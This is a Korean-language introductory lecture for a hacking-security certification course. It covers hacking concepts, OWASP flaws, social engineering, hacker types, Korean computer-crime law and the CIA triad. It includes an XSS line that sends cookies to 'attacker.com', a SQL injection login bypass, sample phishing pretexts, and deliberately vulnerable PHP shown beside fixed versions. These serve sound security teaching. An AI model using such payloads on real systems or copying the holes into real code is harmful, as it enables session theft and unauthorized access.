

# 1강: 해킹 기본 개념과 정보보안 기초

## 개요
해킹보안전문가 1급 과정의 첫 번째 강의로, 해킹과 정보보안의 기본 개념을 학습합니다. 해킹, 크래킹, 웹 해킹의 정의와 차이점, 해커 유형 분류, 사회공학 공격, 그리고 관련 법률에 대해 다룹니다.

## 주요 학습 내용

### 1. 해킹(Hacking)의 정의

#### 기본 정의
**해킹(Hacking)**은 전자 회로나 컴퓨터의 하드웨어, 소프트웨어, 네트워크, 웹사이트 등 각종 정보 체계가 본래의 설계자나 관리자, 운영자가 의도하지 않은 동작을 일으키도록 하거나 체계 내에서 주어진 권한 이상으로 정보를 열람, 복제, 변경 가능하게 하는 행위를 광범위하게 이르는 말입니다.

> **출처**: 위키백과

#### 해킹의 특징
- 시스템의 **의도되지 않은 동작** 유발
- **권한 이상의 정보 접근** 수행
- 기술적 지식을 활용한 **시스템 조작**
- 광범위한 정보 체계에 적용 가능

### 2. 크래킹(Cracking)의 정의

#### 기본 정의
**크래킹(Cracking)**은 해킹이 다른 사람의 컴퓨터 시스템이나 통신망에 정당한 접근 권한 없이 접근하거나 허용된 접근 권한의 범위를 초과하여 침입하는 행위 자체를 의미한다면, 크래킹은 그러한 불법적 접근을 통해 다른 사람의 컴퓨터 시스템이나 통신망을 **파괴하는 행위**를 일컫습니다.

#### 해킹 vs 크래킹 비교

| 구분 | 해킹(Hacking) | 크래킹(Cracking) |
|------|---------------|------------------|
| **목적** | 시스템 분석, 취약점 발견 | 악의적 파괴, 범죄 행위 |
| **성격** | 가치중립적 개념 | 명백한 악의적 행위 |
| **결과** | 시스템 이해, 보안 강화 | 시스템 파괴, 피해 발생 |
| **법적 지위** | 목적에 따라 합법/불법 | 대부분 불법 행위 |

### 3. 웹 해킹(Web Hacking)

#### 정의
**웹 해킹(Web Hacking)**은 웹 사이트의 취약점을 공격하는 기술적 위협으로, 웹 페이지를 통하여 권한이 없는 시스템에 접근하거나 데이터 유출 및 파괴와 같은 행위를 말합니다.

#### 웹 해킹의 주요 유형

##### 1. 웹 엔진 취약점 이용
- 웹 서버 소프트웨어의 버그나 설계 결함 악용
- Apache, IIS, Nginx 등 웹 서버 취약점

##### 2. 웹 애플리케이션 취약점 이용
- 웹 프로그래밍 언어의 오류나 로직 결함 악용
- OWASP Top 10 취약점 활용

##### 3. 웹 서버 및 미들웨어 샘플 파일 이용
- 기본 설치 시 포함된 샘플 파일 악용
- 관리자가 삭제하지 않은 테스트 파일 이용

#### OWASP Top 10 주요 취약점

##### 🔴 SQL 삽입(SQL Injection)
- 데이터베이스 쿼리에 악의적인 SQL 코드 삽입
- 데이터베이스 정보 유출, 변조, 삭제 가능

```sql
-- 예시: 로그인 우회
SELECT * FROM users WHERE username = 'admin' OR '1'='1' --' AND password = 'anything'
```

##### 🔴 크로스 사이트 스크립팅(XSS)
- 웹 페이지에 악성 스크립트 삽입
- 사용자 쿠키, 세션 정보 탈취

```javascript
// 예시: 쿠키 정보 탈취
<script>document.location='http://attacker.com/cookie.php?cookie='+document.cookie;</script>
```

##### 🔴 사이트 간 요청 위조(CSRF)
- 사용자가 의도하지 않은 요청을 강제로 전송
- 권한을 이용한 악의적 작업 수행

### 4. 취약점 공격(Exploit)

#### 정의
**취약점 공격(Exploit)**이란 컴퓨터의 소프트웨어나 하드웨어 및 컴퓨터 관련 전자 제품의 버그, 보안 취약점 등 설계상 결함을 이용해 공격자의 의도된 동작을 수행하도록 만들어진 절차나 일련의 명령, 스크립트, 프로그램 또는 특정한 데이터 조각을 말합니다.

#### 공격 위치에 따른 분류

##### 로컬 취약점 공격
- 취약점 공격이 **공격 대상 자체에서 실행**됨
- 물리적 접근이 필요한 경우가 많음
- 권한 상승 공격에 주로 사용

##### 원격 취약점 공격
- **공격자의 컴퓨터에서 실행**되어 다른 컴퓨터를 공격
- 네트워크를 통한 원격 공격
- 가장 일반적인 공격 형태

#### 취약점 종류에 따른 분류
- **BOF(Buffer Overflow)**: 버퍼 오버플로우 취약점 이용
- **XSS(Cross-Site Scripting)**: 웹 애플리케이션 스크립팅 취약점
- **CSRF(Cross-Site Request Forgery)**: 사이트 간 요청 위조

### 5. 제로데이(Zero-day) 취약점 공격

#### 정의
**제로데이 취약점 공격**은 소프트웨어 취약점이 개발자에게 알려지지 않아 패치가 없는 시점에서 만들어져 사용되는 공격을 의미합니다.

#### 제로데이 공격의 특징
- **패치가 존재하지 않음**
- 탐지가 매우 어려움
- 공격 성공률이 높음
- 높은 가치를 가진 공격 도구

#### 대응 방안
1. **최신 업데이트 적용**: 패치가 나오면 즉시 적용
2. **비정상적인 행동 감시**: 행위 기반 탐지 시스템 운영
3. **다층 방어 체계**: 여러 보안 솔루션을 중첩 운영
4. **사용자 교육**: 의심스러운 파일이나 링크 주의

### 6. 사회공학(Social Engineering) 공격

#### 정의
**사회공학 공격**은 보안학적 측면에서 기술적인 방법이 아닌 사람들간의 기본적인 신뢰를 기반으로 사람을 속여 비밀 정보를 획득하는 기법입니다.

#### 사회공학 공격의 특징
- **비기술적 침입 수단**
- 인간의 심리적 약점 악용
- 신뢰 관계를 기반으로 정보 획득
- 기술적 보안 장치를 우회

#### 사회공학 공격 기법

##### 1. 권위 이용(Authority)
```
"저는 본사 IT팀 김과장입니다. 긴급 보안 점검으로 패스워드를 확인해야 합니다."
```

##### 2. 긴급성 조성(Urgency)
```
"시스템에 심각한 보안 위협이 감지되었습니다. 즉시 계정 정보를 확인해주세요."
```

##### 3. 호감 유발(Liking)
```
"같은 대학 출신이시네요! 도움이 필요한 일이 있어서 연락드렸습니다."
```

##### 4. 상호호혜(Reciprocity)
```
"지난번 도움에 보답하고 싶어서... 작은 부탁이 하나 있습니다."
```

#### 대표적인 사회공학 공격 사례

##### 피싱(Phishing)
- 가짜 이메일, 웹사이트를 통한 정보 탈취
- 금융기관, 포털사이트 등을 사칭

##### 보이스 피싱(Voice Phishing)
- 전화를 통한 사기
- 금융기관, 수사기관 사칭

##### 스피어 피싱(Spear Phishing)
- 특정 개인이나 조직을 대상으로 한 정교한 피싱
- 개인정보를 수집한 후 맞춤형 공격

### 7. 해커(Hacker) 분류

#### 해커의 기본 정의
해킹을 하는 사람이라는 뜻으로, **컴퓨터 전반, 특히 정보 보안에 능통한 전문가**를 가리킵니다. 해커라는 낱말 자체는 선악(善惡)의 개념을 담지 않은 가치중립적 의미를 가지고 있으나, 부정적인 뜻으로 많이 쓰이고 있습니다.

#### 해커 유형별 분류

##### 🤍 화이트 해커(White-hat Hacker)
- **모의 해킹**(Penetration Testing) 전문가
- **공익 또는 학업 목적**으로 해킹 수행
- 보안 취약점 발견 및 보완 방안 제시
- 법적으로 승인된 활동 수행

**활동 영역**:
- 보안 컨설팅
- 모의해킹 서비스
- 보안 솔루션 개발
- 보안 교육 및 연구

##### 🖤 블랙햇 해커(Black-hat Hacker) = 크래커
- **악의적 목적**으로 해킹 수행
- 개인적 이익이나 파괴 목적
- 불법적인 침입 및 데이터 파괴
- 법적 처벌 대상

**주요 활동**:
- 데이터 유출 및 판매
- 랜섬웨어 유포
- 금융 정보 탈취
- 시스템 파괴

##### 🩶 그레이햇 해커(Grey-hat Hacker)
- **화이트햇과 블랙햇의 중간적 성질**
- 항상 좋은 목적에서 해킹 수행
- **허가 없이** 시스템에 침투
- 시스템 파괴하지 않고 오히려 보안 장치 설치

**특징**:
- 선한 동기, 불법적 방법
- 취약점 발견 후 관리자에게 통보
- 때로는 대가를 요구하기도 함

##### 👶 스크립트 키디(Script Kiddie)
- **다른 사람이 개발한 도구**를 사용하는 초보자
- 정교한 해킹 프로그램을 짤 수 있는 능력 부족
- 자랑이나 인정받기 위한 목적
- 경멸적 의미로 사용되는 용어

**특징**:
- 기술적 이해 부족
- 기존 도구 의존
- 무분별한 공격 시도

##### 🔴 훙커(紅客/红客, Honker Union) / 레드 해커(Red Hacker)
- 주로 **중화인민공화국(중국)의 해커**들을 지칭
- 국가적 이념이나 정치적 목적
- 사이버 민족주의 성향

### 8. 관련 법률

#### 정보통신망 이용촉진 및 정보보호 등에 관한 법률

##### 제48조(정보통신망 침해 행위 등의 금지)

**① 침입 금지**
> 누구든지 정당한 접근권한 없이 또는 허용된 접근권한을 넘어 정보통신망에 침입하여서는 아니 된다.

**② 악성프로그램 유포 금지**
> 누구든지 정당한 사유 없이 정보통신시스템, 데이터 또는 프로그램 등을 훼손·멸실·변경·위조하거나 그 운용을 방해할 수 있는 프로그램(이하 "악성프로그램"이라 한다)을 전달 또는 유포하여서는 아니 된다.

**③ 장애 발생 금지**
> 누구든지 정보통신망의 안정적 운영을 방해할 목적으로 대량의 신호 또는 데이터를 보내거나 부정한 명령을 처리하도록 하는 등의 방법으로 정보통신망에 장애가 발생하게 하여서는 아니 된다.

##### 제49조(비밀 등의 보호)
> 누구든지 정보통신망에 의하여 처리·보관 또는 전송되는 타인의 정보를 훼손하거나 타인의 비밀을 침해·도용 또는 누설하여서는 아니 된다.

#### 처벌 규정

##### 제70조의2(벌칙) - 악성프로그램 유포
```
제48조제2항을 위반하여 악성프로그램을 전달 또는 유포하는 자는 
7년 이하의 징역 또는 7천만원 이하의 벌금에 처한다.
```

##### 제71조(벌칙) - 침입, 장애, 정보훼손
```
다음 각 호의 어느 하나에 해당하는 자는 
5년 이하의 징역 또는 5천만원 이하의 벌금에 처한다.

9. 제48조제1항을 위반하여 정보통신망에 침입한 자
10. 제48조제3항을 위반하여 정보통신망에 장애가 발생하게 한 자
11. 제49조를 위반하여 타인의 정보를 훼손하거나 타인의 비밀을 침해·도용 또는 누설한 자
```

### 9. 정보보안(Information Security) 기초

#### 정보보안의 정의
**정보보안(Security)**은 개인정보, 비밀정보 등이 있는 데이터와 시스템을 고의 혹은 실수에 의한 비인가 또는 불법적인 노출, 변조, 파괴로부터 보호하는 것입니다.

#### 정보보안의 3요소 (CIA Triad)

##### 🔐 기밀성(Confidentiality)
- **인가된 사용자만** 정보에 접근할 수 있도록 보장
- 암호화, 접근 제어, 인증 등을 통해 구현
- 정보의 비밀 유지

##### ✅ 무결성(Integrity)
- 정보가 **변조되지 않음**을 보장
- 데이터의 정확성과 완전성 유지
- 해시 함수, 디지털 서명 등으로 구현

##### 🔄 가용성(Availability)
- **필요할 때 언제든지** 정보에 접근할 수 있도록 보장
- 시스템의 연속성과 안정성
- 백업, 이중화 등으로 구현

#### 추가 보안 요소

##### 📊 책임추적성(Accountability)
- 누가, 언제, 무엇을 했는지 추적 가능
- 로그 관리, 감사 기능

##### 📋 준거성(Compliance)
- 관련 법규 및 규정 준수
- 규제 요구사항 충족

### 10. 취약점(Vulnerability) 개념

#### 취약점의 정의
- **시스템(S/W 또는 H/W)의 내부적인 허점**이 노출되는 것
- 시스템 및 네트워크의 **설계, 구현, 운영, 관리상의 약점**
- 크랙커가 취약점을 이용해 원하는 목적을 달성

#### 보안 용어 관계도



##### 취약점(Vulnerability)
- 시스템이 가지고 있는 약점이나 결함
- 보안 정책, 절차, 설계의 허점

##### 위협(Threat)
- 취약점을 악용하여 피해를 입힐 수 있는 가능성
- 공격자, 자연재해, 기술적 오류 등

##### 위험(Risk)
- 위협이 실제로 발생했을 때의 예상 피해
- 위험 = 취약점 × 위협 × 자산 가치

#### 취약점 점검 도구
- **보안스캐너** 또는 **취약점 분석 도구**
- 자동화된 취약점 탐지 및 평가
- 정기적인 취약점 점검 수행

## 실습 예제

### 1. 간단한 XSS 취약점 테스트

#### 취약한 PHP 코드
```php
<?php
if(isset($_GET['name'])) {
    echo "안녕하세요, " . $_GET['name'] . "님!";
}
?>
<form method="get">
    이름: <input type="text" name="name" />
    <input type="submit" value="전송" />
</form>
```

#### XSS 공격 시도
```html
<!-- URL: test.php?name=<script>alert('XSS공격성공')</script> -->
입력값: <script>alert('XSS공격성공')</script>
```

#### 보안 강화된 PHP 코드
```php
<?php
if(isset($_GET['name'])) {
    $name = htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
    echo "안녕하세요, " . $name . "님!";
}
?>
```

### 2. SQL Injection 취약점 테스트

#### 취약한 로그인 쿼리
```php
$sql = "SELECT * FROM users WHERE username='" . $_POST['username'] . "' AND password='" . $_POST['password'] . "'";
```

#### SQL Injection 공격
```sql
-- 사용자명 입력: admin' OR '1'='1' --
-- 최종 쿼리: SELECT * FROM users WHERE username='admin' OR '1'='1' --' AND password='anything'
```

#### 보안 강화 (Prepared Statement)
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username=? AND password=?");
$stmt->execute([$username, $password]);
```

## 보안 점검 체크리스트

### 🔒 기본 보안 인식
- [ ] 해킹과 크래킹의 차이점 이해
- [ ] 웹 애플리케이션 주요 취약점 파악 (OWASP Top 10)
- [ ] 사회공학 공격 기법 인지
- [ ] 제로데이 공격의 위험성 이해

### 🛡️ 예방 조치
- [ ] 정기적인 보안 교육 수행
- [ ] 최신 보안 패치 적용
- [ ] 취약점 점검 도구 활용
- [ ] 다층 보안 체계 구축

### 📊 모니터링
- [ ] 비정상적인 접근 시도 감시
- [ ] 로그 분석 및 보관
- [ ] 인시던트 대응 체계 구축
- [ ] 정기적인 보안 감사 실시

## 관련 리소스

### 📚 추천 학습 자료
- **OWASP** (Open Web Application Security Project): 웹 애플리케이션 보안
- **NIST Cybersecurity Framework**: 사이버보안 프레임워크
- **SANS Top 20**: 주요 보안 위협 및 대응 방안
- **CVE Database**: 공개된 취약점 정보

### 🔧 실습 환경
- **DVWA** (Damn Vulnerable Web Application): 웹 해킹 실습
- **Metasploitable**: 취약한 리눅스 시스템
- **WebGoat**: 웹 애플리케이션 보안 학습
- **VulnHub**: 다양한 취약한 시스템 이미지

### 🏆 인증서
- **CEH** (Certified Ethical Hacker): 화이트해커 인증
- **CISSP** (Certified Information Systems Security Professional): 정보보안 전문가
- **Security+**: 기초 보안 지식 인증
- **CISA** (Certified Information Systems Auditor): 정보시스템 감사

## 마무리

이 강의에서는 해킹과 정보보안의 기본 개념들을 살펴보았습니다. 해킹은 기술적 도구이며, 그 사용 목적에 따라 선악이 결정됩니다. 화이트해커가 되기 위해서는 기술적 능력뿐만 아니라 윤리적 소양과 법적 지식도 함께 갖추어야 합니다.

다음 강의에서는 보안 취약점의 개념과 종류에 대해 더 자세히 알아보겠습니다.

---
*이 자료는 해킹보안전문가 1급 자격증 취득을 위한 학습 목적으로 작성되었습니다.*